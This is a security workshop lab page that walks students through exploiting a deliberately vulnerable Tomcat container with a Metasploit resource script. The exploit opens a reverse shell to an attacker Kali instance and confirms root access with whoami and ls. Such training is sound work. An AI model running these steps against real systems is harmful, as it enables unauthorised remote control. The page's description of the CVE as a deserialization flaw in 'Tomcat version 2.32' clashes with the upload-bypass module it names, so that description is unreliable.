 ```yaml
---
title: "Lab 2: Attacking the Tomcat service"
weight: 2
---
```


**Launching the attack**

This exploit leverages a deserialization vulnerability in Apache Tomcat (version 2.32, CVE-2017-12617) to execute arbitrary code and shovel an administrative shell back to a listener service on the Kali instance for command and control access to the exploited host.

We'll launch the Metasploit “resource script” we viewed in the previous section. A resource script is essentially a batch script for Metasploit which you can use to automate common tasks. See the following link for more information about Metasploit resource files.

https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit__resource_files.md#what-are-resource-files

Now we’ll complete the setup of our Kali environment by creating the required configuration files to launch the attack against the DNS address and exploit script we already identified.

Complete the setup of the _startup.rc_ file

```shell
./start-msploit.sh
```

Examine the contents of the resulting “startup.rc” file

```shell
cat ./startup.rc
```

![Contents of startup.rc](/static/img/start.png)

- We are using the “tomcat_jsp_upload_bypass’ exploit resource script
- rhosts is the DNS address of the Application Load Balancer used to reach the vulnerable system
- rport is the target port
- The LHOST is the public IP associated with the Kali instance
- The LPORT is the local port that the Kali instance will listen on for the shovel connection
- The REVERSELISTNERBINDADDRESS is the local ip address assigned to the Kali instance in the VPC
- Payload java/jsp_shell_reverse_tcp is a package we will load onto the target so we can send commands to the target system.

Write Kali’s public IP to a variable and make a note of it.

```shell
KALI_PUB_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Kali" --query 'Reservations[].Instances[].PublicIpAddress' --output text)

echo $KALI_PUB_IP
```

> [!NOTE]
> Copy the Kali Public IP address somewhere for later use!

Before initiating the attack, we’re going to record the time for our forensic investigation later on.

```shell
date
```

Launch Metasploit with the startup.rc script that has all the necessary parameters for the target

```shell
sudo msfconsole -r startup.rc
```

> [!NOTE]
> Ignore any “unable to resolve host” errors

Type “yes” if prompted to set up a new database, and accept the defaults

![Launching Metasploit](/static/img/runstart.png)

Examining the output we can observe the following

1. We load the tomcat_jsp_upload_bypass
1. Set the rhosts (target of the attack) as the DNS address of the load balancer
1. We set the target port to 80
1. We set the LHOST as the public IP address associated with the Kali network interface (required for the remote shell that we are trying to create to our Kali instance)
1. We set the listening port for the reverse shell to 443
1. We attempt to bind Kali to the local IP address of the Kali network interface
1. We created a new session which is a reverse shell connection to the Kali instance

**Establish a reverse shell**

Metasploit has indicated that we successfully created a reverse shell connection from the vulnerable web app pod to the Kali instance.

_List active sessions_

```shell
sessions -i
```

![Metasploit sessions](/static/img/sessions.png)

Connect to the active session

```shell
sessions <<id>>
```

![Connect to Metasploit session](/static/img/session1.png)

View your logged in identity

```shell
whoami
```

![Logged in users](/static/img/whoami.png)

_List the root directory on the compromised container_

```shell
ls -al
```

![Directory listing](/static/img/ls.png)

> [!NOTE]
> We appear to have the aws cli installed on the container, a risky practice but potentially helpful to the attacker. (We will return to this later.) You will also discover that we have the ability to install additional software as required.

At this point we have determined that we have privileged, root-level access on the container itself. In the next phase of the attack, we will explore what we might achieve with this level of access.
